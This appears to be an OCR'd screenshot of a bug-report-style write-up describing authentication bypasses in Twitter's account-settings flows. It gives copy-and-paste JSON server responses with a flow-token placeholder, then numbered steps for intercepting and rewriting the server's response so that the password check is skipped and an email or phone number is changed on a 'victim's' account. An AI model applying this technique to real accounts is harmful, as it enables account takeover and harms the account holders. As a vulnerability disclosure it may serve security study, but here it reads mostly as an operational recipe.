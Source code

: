 {"flow_token":"[PASTE FLOW TOKEN HERE]:1","status":"success","subtasks":[{"subtask_id":"EmailAssocEnterEmail","enter_email":{"primary_text":{"text":"Change email","entities":[]},"secondary_text":{"text":"Your current email is ███. What would you like to update it to? Your email is not displayed in your public profile on Twitter.","entities":[]},"hint_text":"Email address","next_link":{"link_type":"subtask","link_id":"next_link","label":"Next","subtask_id":"EmailAssocVerifyEmail"},"skip_link":{"link_type":"abort","link_id":"cancel_link","label":"Cancel"},"discoverability_setting":{"primary_text":{"text":"Let people who have your email address find and connect with you on Twitter. Learn more","entities":[{"from_index":77,"to_index":87,"navigation_link":{"link_type":"web_link","link_id":"open_web_link","label":"learn_more_email_phone_disco_link","url":"https://help.twitter.com/safety-and-security/email-and-phone-discoverability-settings"}}]},"value_type":"boolean","value_identifier":"email_discoverability_setting","value_data":{"boolean_data":{"initial_value":false}}}}},{"subtask_id":"EmailAssocVerifyEmail","email_verification":{"primary_text":{"text":"We sent you a code","entities":[]},"secondary_text":{"text":"Enter it below to verify your email.\t","entities":[]},"detail_text":{"text":"Didn't receive code?","entities":[{"from_index":0,"to_index":20,"navigation_link":{"link_type":"subtask","link_id":"resend_email_verification_link","subtask_id":"DidNotReceiveEmailDialog"}}]},"hint_text":"Verification code","email":{"subtask_data_reference":{"key":"email","subtask_id":"EmailAssocEnterEmail"}},"name":{"subtask_data_reference":{"key":"name","subtask_id":"EmailAssocEnterEmail"}},"next_link":{"link_type":"task","link_id":"next_link","label":"Verify"},"fail_link":{"link_type":"subtask","link_id":"fail_link","subtask_id":"EmailAssocEnterEmail"},"cancel_link":{"link_type":"subtask","link_id":"cancel_link","label":"Cancel","subtask_id":"EmailAssocEnterEmail"},"verification_status_polling_enabled":false}},{"subtask_id":"DidNotReceiveEmailDialog","menu_dialog":{"primary_text":{"text":"Didnât receive the code?","entities":[]},"primary_action_links":[{"link_type":"subtask","link_id":"email_link","label":"Resend","subtask_navigation_context":{"action":"resend_email"},"subtask_id":"EmailAssocVerifyEmail"}],"cancel_link":{"link_type":"subtask","link_id":"cancel_link","label":"Cancel","subtask_navigation_context":{"action":"cancel_email_dialog"},"subtask_id":"EmailAssocVerifyEmail"},"dismiss_link":{"link_type":"subtask","link_id":"dismiss_link","subtask_navigation_context":{"action":"dismiss_email_dialog"},"subtask_id":"EmailAssocVerifyEmail"}}}]}

 -------------------------------------------COPY END------------------------------------------------


---------------------------------------------------------------------------------------------------------------------------------------------------------------
Security Vulnerability #2 - Update Victim's phone number - Bypass password screen

  1. Go to Settings and Privacy -> Accounts
  2. Click on Phone -> Add/Update phone number
  3. Enter any random password and Click on 'Next'
  4. Intercept the request the above request
  5. Copy the flow token up to :
  6. Forward client request to server and Intercept the response from server to this request
  7. Modify the Intercepted Server's Response with the below text **please paste the flow token from step 5 below and remove the [square brackets]**
  8. Forward the modified 'Server Response' to the client
  9. This will now bypass the password screen irrespective of It being a correct or Incorrect password - You must now 'Enter' your mobile number and verify It In order to add the phone number to the victim's account

-------------------------------------------COPY FROM BELOW START------------------------------------------------

HTTP/1.1 200 OK
access-control-allow-credentials: true
access-control-allow-origin: https://twitter.com
cache-control: no-cache, no-store, must-revalidate, pre-check=0, post-check=0
connection: close
content-disposition: attachment; filename=json.json
Content-Length: 16612
content-type: application/json; charset=utf-8
date: Mon, 06 Jan 2020 21:36:13 GMT
expires: Tue, 31 Mar 1981 05:00:00 GMT
last-modified: Mon, 06 Jan 2020 21:36:13 GMT
pragma: no-cache
server: tsa_k
strict-transport-security: max-age=631138519
x-connection-hash: be41fa15964cca748cd82c001728c777
x-content-type-options: nosniff